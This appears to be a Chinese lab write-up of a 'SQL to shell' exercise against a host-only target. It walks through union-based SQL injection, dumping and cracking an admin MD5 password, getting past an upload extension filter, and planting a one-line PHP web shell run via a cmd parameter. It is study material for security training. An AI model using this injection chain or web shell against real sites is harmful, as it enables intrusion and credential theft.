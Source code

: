 # 实验三	from sql to shell

## 基础环境搭建

* 攻击者主机环境：
  * host-only
  * ![text](attacker.png)
* 网站服务器ip
  * ![text](victim.png)

## 实验过程

* 攻击者主机浏览器设置代理

  * ![text](proxy.png)
  * 访问靶机192.168.137.69
    * ![text](origin.png)
  * 使用burpsuite截获通信数据,得到服务器的版本及php版本信息
    * ![text](response.png)

* 检测SQL注入

  * ![text](id=1.png)


  * ![text](id=2-1.png)
  * 我们可以看到id=1和id=2-1结果相同，sql语句被直接执行，猜测后台直接使用拼接方式执行sql语句，sql注入可行。

* 进行SQL注入

  * 执行union select ，只有当列数和数据库中列数相同时，不会报错。进行多次测试，发现当列数为4时不会报错。
    * ![text](test.png)
    * ![text](test-success.png)
  * 查看数据库版本信息
    * 把其中一个列数换位@@version即可显示版本信息
    * ![text](version.png)
  * 同理查看当前用户
    * ![text](curuser.png)
  * 查看所有表名
    * ![text](user.png)
  * 查看user表中的用户名和密码
    * ![text](adminis's passwd&user.png)
    * 获得密码后，使用在线md5解密
      * ![text](decrypy.png)
    * 使用用户名密码成功登录管理员账户，在这里可以上传文件。
      * ![text](success-login.png)

* 文件上传漏洞

  * 尝试上传php脚本，发现当前网站不允许直接上传后缀名为.php的文件

    * ![text](no-php!.png)

  * 通过直接修改文件后缀名绕过php过滤。

    * php文件：

      * ```php
        <?php
             system($_GET['cmd']);
        ?>
        ```

      * 查看源代码可以从‘‘<img src>’’中看到php文件存储路径：

        * ![text](shell.png)
        * 点击进入页面。构造输入串‘’cmd=ls‘’，实现直接在浏览器端显示当前文件夹下所有文件。除此之外，还可以执行其他cmd命令。
          * ![text](ls.png)
